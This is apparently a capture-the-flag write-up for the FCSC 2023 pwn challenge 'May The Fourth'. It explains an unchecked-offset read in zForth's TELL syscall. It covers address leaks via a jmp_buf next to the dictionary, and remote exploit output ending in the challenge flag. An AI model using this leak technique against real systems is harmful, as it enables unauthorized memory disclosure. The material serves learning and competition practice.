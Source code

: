 # FCSC2023 - Pwn Write-up : May The Fourth


![](./data/fcsc.png)

## 👀 - Overview

```
Un utilisateur de zForth refuse de mettre à jour son installation, car selon lui "cela ne sert à rien". 
Saurez-vous le détromper en trouvant le flag dans l'environnement de l'interpréteur (variable FLAG) ?
```

This was a really special challenge, to make it shorter, we have an interpreter of fourth, [zforth](https://github.com/zevv/zForth) without the last commit. This commit is called: `Fixed potental out of bound memory access in example linux PEEK syscall. Thanks cde!`, cde being the creator of the challenge, we know for sure this is what we are supposed to exploit.

There is also the diff with the commit in the [given source file](./src/zforth-src/tell.patch):
```c
@@ -129,7 +129,11 @@ zf_input_state zf_host_sys(zf_syscall_id id, const char *input)
 
 		case ZF_SYSCALL_TELL: {
 			zf_cell len = zf_pop();
-			void *buf = (uint8_t *)zf_dump(NULL) + (int)zf_pop();
+			zf_cell addr = zf_pop();
+			if(addr >= ZF_DICT_SIZE - len) {
+				zf_abort(ZF_ABORT_OUTSIDE_MEM);
+			}
+			void *buf = (uint8_t *)zf_dump(NULL) + (int)addr;
 			(void)fwrite(buf, 1, len, stdout);
 			fflush(stdout); }
 			break;
```

## 🔍 - Analysis


To start the challenge, we must launch the `zforth` binary with the `core.zf` file as an argument so it loads everything. Once it's done, our interpreter is ready to work.

I'm not gonna explain a lot about forth, but I watched a few tutorials to have a better understanding on how the language works.

The most important is that forth is a stack-based language, which means that when I do:
```
> 1337
> 56
> .
```

`. is the equivalent of 'print' in forth`

In pseudo-code, it will look like:
```
> push(1337)
> push(56)
> print(pop())
```
So, it will print 56 to the screen.


The vulnerable code is the one handling the `tell` operation, which works like this:

```
<offset> <size> tell
0 4 tell
```
-> print 4 bytes at `dict`+0. Now I'll be honest, I still don't understand what the dict is, it seems to be something stocking words (equivalent of functions in forth) but I'm really not sure.

As we can see in `tell.patch`, there is no check that `offset` is in range of the dict. Sooo we can read the content of any memory address as long as we know the offset between the target address and the dict address.

## 🧙🏼‍♂️ - Exploiting

> Note: this time I tested my script remotely at each steps :-)

Looking with gdb where the dict was, I saw that it was just after the got.plt section, so I retrieved the version of the libc and calculated the base address, but it was not really helpfull since the flag is stored in the stack.

At some point I did a little script that dumped every single byte I could read before the program crashes (if we try to read somewhere memory isnt mapped, it will crash) but I did not find anything interesting at first.

Since I was having a hard time finding something, I wrote a script that tried to bruteforce the offset between the dict and the stack. I didn't believed in it so I let it run while I was trying to find something, and looking back I would never have found something since there's like millions of possibilities...

![](./data/meme_bf.jpg)

Looking at the dict position in gdb, we can see that just after it, there is a `jmp_buf` struct:
```
0x5655c170 <dict+4048>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c180 <dict+4064>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c190 <dict+4080>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1a0 <input_state>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1c0 <jmpbuf>:	0x5655b000	0xffffd310	0xf7ffcb80	0xffffc148
0x5655c1d0 <jmpbuf+16>:	0x4e24eca6	0x1ab32ff5	0x00000000	0x00000000
0x5655c1e0 <jmpbuf+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1f0 <jmpbuf+48>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Leaking it remotely, this time there was also the stack leaks ! Even better we also have the PIE leak `0x5655b000` !

Looking in ghidra, I found the offset between this leak and the dict which is `+416`, so now that we have the address of the dict and a leak of the stack, we can simply do `stack_leak - dict` to get the offset between the stack leak and the dict !

The last step was to convert this into a negative offset, because for some reason when I tried to simply add the offset, it got transform into `0x80000000`, I still don't know why.

Once we have the negative offset, we just have to read some bytes from this until finding the environement variables. I did not scripted this part and did it by hand because I was too hyped but yeah

```
$ python3 exploit.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2105: Done

----------LIBC LEAKING----------
printf      @ 0xf3886020
---------------------------------

----------ASLR LEAKING----------
stack leak  @ 0xffbd7270
---------------------------------

----------PIE  LEAKING----------
binary leak @ 0x61d01000
---------------------------------

<!> START  ADDR = 0x61d011a0
<!> STACK  ADDR = 0xffbd7270
Start offset:  1645387567
[*] Switching to interactive mode
$ -1645387567 7300 tell 

<snip>
di=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
\x00LAG=FCSC{c7d99be764cf1fbdc3447eb935b51285}\x00OME=/home/ctf
```

And it's flagged !


## ✅ - Conclusion

That was a really fun challenge, even if the solution looks straight forward, the path to go there was challenging to me and made me learn some new stuff.

Thanks again to the creators, I really enjoyed this challenge !